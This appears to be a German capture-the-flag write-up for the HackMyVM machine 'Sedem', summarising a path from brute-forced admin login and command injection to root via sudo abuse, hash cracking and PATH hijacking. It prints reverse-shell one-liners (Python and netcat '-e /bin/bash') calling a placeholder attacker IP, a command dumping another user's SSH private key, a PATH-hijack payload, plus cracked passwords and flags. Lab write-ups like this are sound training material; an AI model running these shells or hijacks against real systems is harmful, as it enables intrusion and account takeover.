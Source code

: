 # Sedem - HackMyVM (Medium)

![Sedem.png](Sedem.png)

## Übersicht

*   **VM:** Sedem
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Sedem)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 1. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Sedem_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Sedem" zu erlangen. Der Weg dorthin begann mit der Entdeckung eines `/sysadmin`-Verzeichnisses auf dem Webserver. Nach erfolgreichem Brute-Force-Login (`admin:fucker1`) in den Admin-Bereich wurde eine Command Injection-Schwachstelle im Parameter `mission` der Seite `/sysadmin/system/` gefunden. Dies ermöglichte eine Reverse Shell als `www-data`. Die erste Rechteausweitung zum Benutzer `user1` gelang durch Ausnutzung einer `sudo`-Regel, die `www-data` erlaubte, `/usr/sbin/pppdump` als `user1` auszuführen, um dessen SSH-Schlüssel in Hex-Form zu extrahieren. Nach Dekodierung des Schlüssels wurde SSH-Zugriff als `user1` erlangt. Die nächste Eskalation zu `user2` erfolgte durch Ausnutzung einer weiteren `sudo`-Regel, die `user1` erlaubte, ein Python-Skript (`/home/user2/socket/code.py`) als `user2` auszuführen. Durch Senden eines Reverse-Shell-Befehls über einen UNIX-Socket, auf den das Skript lauschte, wurde eine Shell als `user2` erhalten. Für `user3` wurde ein Whirlpool-Passwort-Hash in `/home/user3/.privacy.txt` gefunden, der zu `nopassword` geknackt wurde. Die finale Eskalation zu Root erfolgte durch PATH-Hijacking. Das SUID/SGID-Root-Programm `/opt/check` rief den Befehl `service` ohne absoluten Pfad auf. Durch Erstellen einer bösartigen `service`-Datei in `/tmp` und Manipulation der `PATH`-Variable wurde diese als Root ausgeführt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `wget`
*   `stegseek` (versucht)
*   `stegsnow` (versucht)
*   `exiftool` (versucht)
*   `nikto`
*   `wfuzz`
*   Burp Suite (impliziert)
*   Python (für Reverse Shell Payload)
*   `nc` (netcat)
*   Python3 (`pty` Modul)
*   `sudo`
*   `pppdump`
*   CyberChef (extern, für Hex-Dekodierung)
*   `ssh`
*   `socat`
*   Crackstation (extern, für Hash-Crack)
*   Standard Linux-Befehle (`cat`, `echo`, `chmod`, `export`, `strings`, `vi`, `find`, `ls`, `id`, `su`, `mkdir`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Sedem" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.107 – Abweichung vom ARP-Scan, der .138 fand) identifiziert. Hostname `sedem.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 7.9p1) und Port 80 (HTTP, Apache 2.4.38).
    *   `gobuster` fand u.a. `/sysadmin/`. Steganographie-Versuche auf `image.jpg` (von `/`) blieben erfolglos.
    *   Zugriff auf `/sysadmin/` war zunächst verboten (403). `gobuster` auf `/sysadmin/` fand `/include/header.php` und `footer.php`.
    *   LFI-Versuche mit `wfuzz` auf `index.php` und `footer.php` im `/sysadmin`-Verzeichnis scheiterten.
    *   Mittels Brute-Force (Burp Suite) auf das Login-Formular von `/sysadmin/index.php` wurden die Credentials `admin:fucker1` gefunden.
    *   Nach dem Login wurde im Bereich `/sysadmin/system/` eine Command Injection-Schwachstelle im GET-Parameter `mission` entdeckt (`?mission=id`).

2.  **Initial Access (RCE als `www-data`):**
    *   Die Command Injection-Schwachstelle (`?mission=`) wurde genutzt, um eine Python-Reverse-Shell auszuführen: `python -c 'import socket,subprocess,os;s=socket.socket(...);s.connect(("ANGRIFFS_IP",4444));os.dup2(...);import pty; pty.spawn("/bin/sh")'`.
    *   Eine Reverse Shell als `www-data` wurde auf einem Netcat-Listener (Port 4444) empfangen und stabilisiert.

3.  **Privilege Escalation (von `www-data` zu `user1` via `sudo pppdump` & SSH Key):**
    *   `sudo -l` als `www-data` zeigte, dass `/usr/sbin/pppdump` als `user1` ohne Passwort ausgeführt werden durfte.
    *   Mittels `sudo -u user1 /usr/sbin/pppdump /home/user1/.ssh/id_rsa` wurde der private SSH-Schlüssel von `user1` als Hex-String ausgegeben.
    *   Der Hex-String wurde mit CyberChef dekodiert und der private Schlüssel gespeichert.
    *   Erfolgreicher SSH-Login als `user1` mit dem extrahierten Schlüssel.
    *   Die User-Flag (`Hegumlam`) wurde in `/srv/ftp/user.txt` gefunden (lesbar als `user1` oder `user2`).

4.  **Privilege Escalation (von `user1` zu `user2` via `sudo python` & Socket):**
    *   `sudo -l` als `user1` zeigte (impliziert), dass `/usr/bin/python /home/user2/socket/code.py` als `user2` ausgeführt werden durfte.
    *   Das Python-Skript `code.py` lauschte auf einem UNIX-Socket (`/home/user2/socket/socket_test.s`) und führte empfangene Befehle aus.
    *   Mittels `echo 'nc ANGRIFFS_IP 3333 -e "/bin/bash"' | socat - UNIX-CLIENT:/home/user2/socket/socket_test.s` wurde ein Reverse-Shell-Befehl an den Socket gesendet.
    *   Eine Reverse Shell als `user2` wurde auf einem Netcat-Listener (Port 3333) empfangen.

5.  **Privilege Escalation (von `user2` zu `user3` via Hash Crack):**
    *   Als `user2` wurde in `/home/user3/.privacy.txt` ein langer Hex-String gefunden: `651d...7ee`.
    *   Crackstation identifizierte diesen als Whirlpool-Hash und knackte ihn zu `nopassword`.
    *   Mit `su user3` und dem Passwort `nopassword` wurde zu `user3` gewechselt.

6.  **Privilege Escalation (von `user3` zu `root` via PATH Hijacking):**
    *   Als `user3` wurde die SUID/SGID-Root-Datei `/opt/check` gefunden.
    *   `strings /opt/check` zeigte, dass das Programm den Befehl `service apache2 status` ausführt, aber `service` ohne absoluten Pfad aufruft.
    *   Im beschreibbaren Verzeichnis `/tmp` wurde eine bösartige Datei namens `service` erstellt (`echo 'nc ANGRIFFS_IP 5555 -e "/bin/bash"' > /tmp/service; chmod +x /tmp/service`).
    *   Die `PATH`-Variable wurde manipuliert: `export PATH=/tmp:$PATH`.
    *   Durch Ausführen von `/opt/check` wurde nun `/tmp/service` (die Reverse Shell) als Root ausgeführt.
    *   Eine Root-Shell wurde auf einem Netcat-Listener (Port 5555) empfangen.
    *   Die Root-Flag (`Thicolgim`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Web-Login Brute-Force:** Erfolgreiches Erraten von Admin-Credentials für `/sysadmin/`.
*   **Command Injection:** Eine Webanwendung im Admin-Bereich (`/sysadmin/system/`) war anfällig für Command Injection über den `mission`-Parameter.
*   **Unsichere `sudo`-Regeln:**
    *   `www-data` durfte `pppdump` als `user1` ausführen, was das Lesen von `user1`s SSH-Schlüssel ermöglichte.
    *   `user1` durfte ein Python-Skript als `user2` ausführen, das unsicher Daten von einem UNIX-Socket verarbeitete.
*   **Klartextpasswörter/Schwache Hashes in Dateien:** Ein Whirlpool-Hash für `user3` wurde in einer Textdatei gefunden und konnte geknackt werden.
*   **SUID-Binary mit PATH Hijacking:** Ein SUID/SGID-Root-Programm (`/opt/check`) rief einen Systembefehl (`service`) ohne absoluten Pfad auf, was PATH-Manipulation und Ausführung eines bösartigen Skripts als Root ermöglichte.
*   **Informationslecks:** PHP-Include-Dateien waren direkt zugänglich (aber nicht direkt ausnutzbar für LFI).

## Flags

*   **User Flag (`/srv/ftp/user.txt`):** `Hegumlam`
*   **Root Flag (`/root/root.txt`):** `Thicolgim`

## Tags

`HackMyVM`, `Sedem`, `Medium`, `Web Brute-Force`, `Command Injection`, `sudo Exploit`, `pppdump`, `UNIX Socket Exploit`, `Hash Cracking`, `Whirlpool`, `SUID Exploit`, `PATH Hijacking`, `Linux`, `Web`, `Privilege Escalation`, `Apache`

